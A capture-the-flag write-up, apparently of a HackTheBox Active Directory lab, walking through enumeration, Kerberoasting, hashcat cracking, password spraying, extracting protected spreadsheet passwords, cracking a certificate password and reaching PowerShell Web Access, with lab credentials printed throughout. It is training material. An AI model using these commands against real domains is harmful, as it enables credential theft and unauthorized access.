## Enumeration
### NMAP
```bash
nmap -sC -sV -v -T4 -Pn -oN scans/nmap.txt search.htb
```

```text
PORT    STATE SERVICE       VERSION
53/tcp  open  domain        Simple DNS Plus
80/tcp  open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Search &mdash; Just Testing IIS
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-08 10:51:42Z)
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2022-08-08T10:52:34+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=research
| Issuer: commonName=search-RESEARCH-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-08-11T08:13:35
| Not valid after:  2030-08-09T08:13:35
| MD5:   0738 614f 7bc0 29d0 6d1d 9ea6 3cdb d99e
|_SHA-1: 10ae 5494 29d6 1e44 276f b8a2 24ca fde9 de93 af78
443/tcp open  ssl/http      Microsoft IIS httpd 10.0
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=research
| Issuer: commonName=search-RESEARCH-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-08-11T08:13:35
| Not valid after:  2030-08-09T08:13:35
| MD5:   0738 614f 7bc0 29d0 6d1d 9ea6 3cdb d99e
|_SHA-1: 10ae 5494 29d6 1e44 276f b8a2 24ca fde9 de93 af78
|_ssl-date: 2022-08-08T10:52:34+00:00; 0s from scanner time.
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Search &mdash; Just Testing IIS
445/tcp open  microsoft-ds?
464/tcp open  kpasswd5?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Issuer: commonName=search-RESEARCH-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-08-11T08:13:35
| Not valid after:  2030-08-09T08:13:35
| MD5:   0738 614f 7bc0 29d0 6d1d 9ea6 3cdb d99e
|_SHA-1: 10ae 5494 29d6 1e44 276f b8a2 24ca fde9 de93 af78
|_ssl-date: 2022-08-08T10:52:34+00:00; 0s from scanner time.
Service Info: Host: RESEARCH; OS: Windows; CPE: cpe:/o:microsoft:windows
```


### Website
Website on port 80.


There's some employee profiles. We can add these to a user list to validate them against the domain.


```text
Keely Lyons
Dax Santiago
Sierra Frye
Kyla Stewart
Kaiara Spencer
Dave Simpson
Ben Thompson
Chris Stewart
```

This picture caught my attention. It seems to say something about a password.



On the notebook it mentions a password for `Hope Sharp`.


```text
Hope Sharp:IsolationIsKey?
```

### SMB
We have access to SMB shares.



I'll first look at the `CertEnroll` share.



Inside the `asp` file there's a `research` subdomain. Add this to `/etc/hosts`.



In the `RedirectedFolders` share there's a list of users. We can add these to our user list.



We can concatenate the string to only include the users our user list file.
```bash
smbclient -U 'search.htb/hope.sharp%IsolationIsKey?' //search.htb/RedirectedFolders\$ -c ls | awk '{print $1}'
```

### Kerbrute
Since we don't yet know the format of users we can just test using a few common formats such as `[given].[surname]` on users that we suspect to be valid like `Hope Sharp`.

```bash
kerbrute userenum -d search.htb --dc search.htb userlist.txt
```



We can format the rest of the users like this and try enumerating once again.



### Kerberoasting
We can request SPN's and associated encrypted TGT's that we can crack.

```bash
impacket-GetUserSPNs -request search.htb/hope.sharp:IsolationIsKey? -dc-ip search.htb
```



Let's use hashcat to crack it.

```bash
hashcat -m 13100 -a 0 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```



We get a plaintext password back.

```text
web_svc:@3ONEmillionbaby
```

## Shell as sierra.frye

Unfortunately these credentials don't work against `evil-winrm`. Let's try password spraying.

```bash
crackmapexec smb search.htb -u userlist.txt -p '@3ONEmillionbaby'
```

We get a hit on `edgar.jacobs`.



```text
edgar.jacobs:@3ONEmillionbaby
```

We can use `smbclient` to view Edgar's home directory.

```bash
smbclient -U 'search.htb/edgar.jacobs%@3ONEmillionbaby' //search.htb/RedirectedFolders\$
```

### Spreadsheet

Within his Desktop directory is a `Phishing_Attempt.xlsx` document.



If we open the file we get list of usernames.



If we try and access the cells next to the usernames we get an error asking us to enter a password because the cells are protected.



We aren't able to unprotect the sheet as we don't have a valid password. We can decompress the `xlsx`.



Let's look at `xl/sharedStrings.xml`. It contains all the protected fields but unformatted.



```text
//51+mountain+DEAR+noise+83//
++47|building|WARSAW|gave|60++
!!05_goes_SEVEN_offer_83!!
~~27%when%VILLAGE%full%00~~
==95~pass~QUIET~austria~77==
//61!banker!FANCY!measure!25//
??40:student:MAYOR:been:66??
&&75:major:RADIO:state:93&&
**30*venus*BALL*office*42**
;;36!cried!INDIA!year!50;;
..10-time-TALK-proud-66..
??47^before^WORLD^surprise^91??
**24&moment&BRAZIL&members&66**
$$49=wide=STRAIGHT=jordan=28$$18
```

### Password Spraying
We can check the passwords we found in the spreadsheet against the usernames we already have
```bash
crackmapexec smb search.htb -u userlist.txt -p passwords.txt | grep -v [-]
```

We get a hit for `sierra.frye`.



```text
sierra.frye:$$49=wide=STRAIGHT=jordan=28$$18
```

Let's login and view their home directory share.

```bash
smbclient -U 'search.htb/sierra.frye%$$49=wide=STRAIGHT=jordan=28$$18' //search.htb/RedirectedFolders\$
```

In the `/downloads/backups` directory are two interesting files.



### Certificates

We aren't able to add the `staff.pfx` certificate. Let's brute force the password.



```bash
crackpkcs12 -d /usr/share/wordlists/rockyou.txt -t 100 staff.pfx
```



```text
misspissy
```

We can now add both certificates with the password.



### Directory Brute Forcing
```bash
gobuster dir -k -u https://search.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



It's not a definite directory but `/staff` shows up. Let's check it out.

If we try accessing the page it's asks for a certificate. Select `Sierra`'s certificate.



We can now access a PowerShell Web Access page.



We can login using their credentials.



### User.txt


## Pivot to BIR-ADFS-GMSA
### BloodHound
```bash
bloodhound-python -c All -u sierra.frye -p '$$49=wide=STRAIGHT=jordan=28$$18' -d search.htb -dc search.htb -ns 10.10.11.129
```



If we select the Shortest Path to Domain Admins from Owner Principals we can see that we need to pivot to `BIR-ADFS-GMSA` and then to `tristan.davies`.

